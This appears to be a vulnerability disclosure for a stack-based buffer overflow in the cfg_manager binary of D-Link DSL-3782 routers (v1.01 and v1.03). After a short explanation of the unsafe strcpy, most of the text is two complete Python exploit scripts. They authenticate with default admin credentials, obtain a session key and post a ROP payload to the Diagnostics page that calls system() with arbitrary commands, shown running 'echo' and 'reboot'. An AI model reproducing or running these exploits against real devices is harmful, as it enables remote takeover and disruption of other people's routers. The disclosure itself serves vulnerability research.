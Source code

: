 Vendor of the products:　D-Link

Reported by: 　　　　　 [x.sunzh@gmail.com](mailto:x.sunzh@gmail.com)

Affected products:　　　DSL-3782 v1.01, DSL-3782 v1.03

# Buffer overflow

## Code in cfg_manager

Code bellow (in cfg_manager) performs the traceroute (or ping) test in the Diagnostic webpage.

![image-20220424095429446](imgs/bof_code1.png)

The *getAttrValue* method at `.text: 0x474bA4` can lead to a stack-based buffer overflow.



### Code in getAttrValue

The dst parameter (a4) of strcpy corresponds to the `$a3` register in the above picture, which comes from the `$s1` register, and the `$s1` register stores an offset address in stack (at `.text: 474af0`).

![image-20220424195414876](imgs/bof_code2.png)



## In v1.01

### exp

```python
import requests
import urllib
from pwn import *

context.binary = "../_DSL-3782_A1_EU_1.01_07282016.bin.extracted/squashfs-root/userfs/bin/cfg_manager"
context.endian = "big"
context.arch = "mips"

main_url = "http://192.168.1.1:80"

def login():
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        }
    url = main_url + "/cgi-bin/Login.asp?User=admin&Pwd=admin&_=1640832458081"
    resp = s.get(url,headers=headers,timeout=10)
    print resp.text


def get_session_key():
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        }
    url = main_url + "/cgi-bin/get/New_GUI/get_sessionKey.asp"
    resp = s.get(url,headers=headers,timeout=10)
    sessionKey = resp.text
    return sessionKey


def exp(sessionKey=None):
    libc_base = 0x2b50b000
    system_offset = 0x59bb0
    system_addr = libc_base + system_offset
    gadget_offset = 0x0001656C
    gadget_addr = libc_base + gadget_offset

    cmd = "echo yab. > /tmp/1"
    padding = "a" * 72
    s0 = p32(system_addr)
    s1 = "AAAA"
    s2 = "BBBB" 
    s3 = "CCCC"
    ra = p32(gadget_addr)
    padding2 = "A" * 16
    payload = padding + s0 + s1 + s2 + s3 + ra + padding2 + cmd

    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36"
        }
    params = {
        "Type":"p", "sessionKey":urllib.unquote(sessionKey),
        "Addr":urllib.unquote(payload)
        }
    url = main_url + "/cgi-bin/New_GUI/Set/Diagnostics.asp"
    resp = s.post(url,data=params,headers=headers,timeout=10)
    print resp.text


if __name__ == '__main__':
    login()
    sessionKey = get_session_key()
    exp(sessionKey=sessionKey) 
```

### Attack effect

![image-20211230112947079](imgs/bof_effect_1.01.png)

Since the command we executed in the exploit script (line 41) is `echo yab. > /tmp/1`, we can confirm that our attack was successful by printing the content in file /tmp/1.



## In v1.03

An authenticated attacker can still use the stack-based bof to complete remote code execution of single-word commands (such as reboot).

### exp

```python
import requests
import urllib
from pwn import *
import os
from time import sleep


context.binary = "../new/_DSL-3782_A1_EU_1.03_04042018.bin.extracted/squashfs-root/userfs/bin/cfg_manager"
context.endian = "big"
context.arch = "mips"

server = "192.168.1.1"
main_url = "http://192.168.1.1:80"


def get_session_key(a):
    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie": "SESSIONID_AUTH=%s" % a
        }
    url = main_url + "/cgi-bin/get/New_GUI/get_sessionKey.asp"
    resp = s.get(url,headers=headers,timeout=10)
    sessionKey = resp.text
    print(sessionKey)
    return sessionKey


def exp(sessionKey=None,a=''):
    libc_base = input('libc_base:')
    system_offset = 0x59bb0
    system_addr = libc_base + system_offset
    gadget_offset = 0x0001656C
    gadget_addr = libc_base + gadget_offset

    cmd = "reboot"
    padding = "a" * 72
    s0 = p32(system_addr)
    s1 = "AAAA"
    s2 = "BBBB" 
    s3 = "CCCC"
    ra = p32(gadget_addr)
    padding2 = "A" * 16
    payload = padding + s0 + s1 + s2 + s3 + ra + padding2 + cmd

    s = requests.Session()
    s.verify = False
    headers = {
        "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_6) AppleWebKit/537.36(KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36",
        "Cookie": "SESSIONID_AUTH=%s" % a
        }
    params = {
        "Type":"t", "sessionKey":urllib.unquote(sessionKey),
        "Addr":urllib.unquote(payload)
        }
    url = main_url + "/cgi-bin/New_GUI/Set/Diagnostics.asp"
    resp = s.post(url,data=params,headers=headers,timeout=10)
    print resp.text


if __name__ == '__main__':
    print '\n[*] Connection %r' % main_url
    a = input()
    print '[*] Getting session key'
    sessionKey = get_session_key(a)
    print '[*] Sending payload'
    exp(sessionKey=sessionKey, a=a) 
    sleep(1)
    print '[*] Rebooting the target!'
    sleep(2)
    print '[*] Done!'

```

### Attack effect

![image-20220613164859716](imgs/bof_effect_1.03.png)

Since the command we executed in the exploit script (line 37) is `reboot` , you can see that the emulator (firmadyne) is rebooting.  
